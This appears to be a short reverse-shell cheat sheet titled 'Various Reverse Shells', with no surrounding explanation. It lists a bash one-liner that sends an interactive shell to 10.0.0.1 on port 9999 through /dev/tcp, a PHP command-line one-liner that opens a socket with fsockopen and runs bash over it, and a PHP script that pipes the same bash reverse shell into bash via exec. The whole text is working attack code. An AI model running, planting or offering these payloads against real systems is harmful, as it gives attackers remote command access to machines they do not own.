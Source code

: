 # Various Reverse Shells

# Bash
bash -i >& /dev/tcp/10.0.0.1/9999 0>&1
##

# PHP
php -r '$sock=fsockopen("10.0.0.1",9999);exec("bash -i <&3 >&3 2>&3");'


<?php 

$cmd = 'echo "bash -i >& /dev/tcp/10.0.0.1/9999 0>&1" | bash';
exec($cmd);

?>
##
